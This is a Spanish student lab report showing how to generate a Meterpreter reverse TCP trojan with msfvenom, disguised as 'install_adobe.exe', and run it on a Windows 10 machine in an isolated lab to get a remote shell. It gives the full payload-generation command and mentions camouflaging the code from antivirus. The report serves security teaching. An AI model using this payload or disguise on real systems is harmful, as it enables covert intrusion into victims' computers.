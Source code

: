 
<center>

# Hack Windows 10 usando TCP reverse


</center>

***Nombre:***
***Curso:*** 2º de Ciclo Superior de Administración de Sistemas Informáticos en Red.

### ÍNDICE

+ [Introducción](#id1)
+ [Objetivos](#id2)
+ [Material empleado](#id3)
+ [Desarrollo](#id4)
+ [Conclusiones](#id5)


#### ***Introducción***. <a name="id1"></a>

Mediante ingenieria social, pueden engañarte para que aceptes ejecutar un virus en tu ordenador sin saber lo que realmente estas haciendo.

#### ***Objetivos***. <a name="id2"></a>

El objetivo de la práctica tomaremos el control de nuestra victima mediante un troyano.

#### ***Material empleado***. <a name="id3"></a>

Máquina atacante- Kali Linux
Máquina víctima-  Windows 10

#### ***Desarrollo***. <a name="id4"></a>

Lo primero que haremos es asignar las ips tanto a nuestra máquina como a nuestra victima, y configurarlas en la misma red interna.

![](./img/1.JPG)

![](./img/2.JPG)

Una vez configuradas las ips vamos a ejecutar el exploit en nuestra terminal con el siguiente comando ***msfvenom -p windows/meterpreter/reverse_tcp --platform
windows -a x86 -f exe LHOST= ("aquí debemos poner nuestra ip") LPORT=444 -o
$HOME/install_adobe.exe***.

![](./img/3.JPG)

Este script nos generará un archivo en n uestro home.
Lo más dificil de este tipo de ataques es que debemos conseguir que la victima lo ejecute en su pc. Para este ejemplo simplemente copiaremos mediante usb el archivo de una máquina a otra.

![](./img/4.JPG)

![](./img/8.JPG)

Ejecutamos el archivo en la máquina víctima y volvemos a nuestra terminal de kali.
Vamos a activar nuestro exploit con la siguiente configuración.

![](./img/7.JPG)

Una vez configurado lo ejecutamos con el comando ***exploit***

![](./img/6.JPG)

¡Y listo! ya estamos dentro del ordenador de nuestra víctima y ella no lo sabe.

#### ***Conclusiones***. <a name="id5"></a>

Este tipo de ataques son dificiles de implementar por el hecho de que debemos acceder a la red de nuestra víctima al tiempo que debemos conseguir que ejecute nuestro troyano. En este ejercicio de ejemplo, hemos desactivado el antivirus de nuestra víctima, pero en un ataque real tendriamos que camuflar muy bien el codigo malicioso para que el antivirus no lo detectase.
